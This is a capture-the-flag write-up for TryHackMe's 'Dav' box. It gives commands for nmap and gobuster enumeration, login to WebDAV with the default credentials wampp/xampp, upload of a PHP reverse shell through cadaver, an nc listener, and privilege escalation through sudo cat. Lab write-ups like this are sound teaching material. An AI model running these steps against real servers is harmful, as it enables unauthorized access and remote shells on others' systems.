



# 'Dav' box writeup

## Dav is a CTF box created by stuxnet and available on the [TryHackMe platform](https://tryhackme.com)

## Read about [WebDAV](https://en.wikipedia.org/wiki/WebDAV), [Dav default credentials](http://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html) and [Cadaver, the WebDAV client](https://docs.oracle.com/html/E10235_03/webdav007.htm)


## Foothold

+ **We deploy the machine and start with a nmap scan for open ports**

``nmap -sV -sC -oN scan1 10.10.62.166``

+ **From our result, we can see that the 80 port is open, which is running an Appache with a default page**


+ **Let's run a gobuster search too and see our results. It seems that a webdav service is running**

``gobuster dir -u http://10.10.62.166/ -w /usr/share/wordlists/dirb/common.txt``


**Navigating to the /webdav directory, the login page shows up.**
**We need some credentials, and searching on google we can find some.**

[login](images/login.png?raw=true "login")

``user: wampp``

``pass: xampp``

+ **After we log in, we can see a file named `passwd.dav` inside the directory**

[webdav](images/webdav.jpg?raw=true "webdav")

+ **Reading the file, it seems to be some credentials with a hashed password.**
**Trying to unhashed it, i realised it's nothing that we can do with it so i continued to read about WebDAV service.**
**It has some similarities with the ftp, among with the cadaver: we can upload some files in that /webdav directory.**
**Let's login with the cadaver, the WebDAV client, using the same default credentials**

``cadaver http://10.10.62.166/webdav/``

``Username: wampp``

``Password: xampp``

+ **Now, let's try to upload a reverse php shell.**
**I use the [pentestmonkey reverse shell](https://github.com/pentestmonkey/php-reverse-shell).**
**Get it and modify the $ip parameter with your tryhackme tunneled ip and then upload it on our webdav directory**

``put php-reverse-shell.php``

[php](images/php-reverse-shell.jpg)

[php](images/uploaded.jpg)

+ **It seems like our reverse shell was uploaded, so let's start a nc listener and access our php shell file**

``nc -lvnp 1234``

``http://10.10.62.166/webdav/php-reverse-shell.php``



## User escalation

**And we're in.**
**Let's spawn an interactive shell and read our first flag, located inside the home directory of the merlin user.**

```console
python -c 'import pty;pty.spawn("/bin/bash")'
```



## Root escalation

+ **Let's run a ``sudo -l`` command to see what commands www-data user can run**



+ **It seems that the we can run the cat command with super user privileges so we can read our root flag**

``sudo cat /root/root.txt``


